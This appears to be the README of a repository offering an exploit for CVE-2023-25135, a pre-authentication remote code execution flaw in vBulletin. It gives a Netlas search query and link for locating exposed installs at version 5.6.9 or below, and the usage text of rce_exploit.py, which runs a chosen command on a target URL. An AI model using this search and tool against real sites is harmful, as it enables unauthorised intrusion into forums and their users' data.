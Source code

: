 # CVE-2023-25135

### Pre-authentication RCE

See: https://www.ambionics.io/blog/vbulletin-unserializable-but-unreachable

#### Netlas Dork.
- [Search Link](https://app.netlas.io/responses/?page=1&q=tag.vbulletin.version%3A%3C%3D5.6.9)
```
 tag.vbulletin.version:<=5.6.9
```

```
python3 rce_exploit.py --help                 
Usage: rce_exploit.py [-h] [-p PROXY] url command

Exploit for CVE-2023-25135: vBulletin pre-authentication RCE.

Positional Arguments:
  url                   Target URL
  command               Command to execute

Options:
  -h, --help            show this help message and exit
  -p, --proxy PROXY     Proxy to use (optional)
 ```
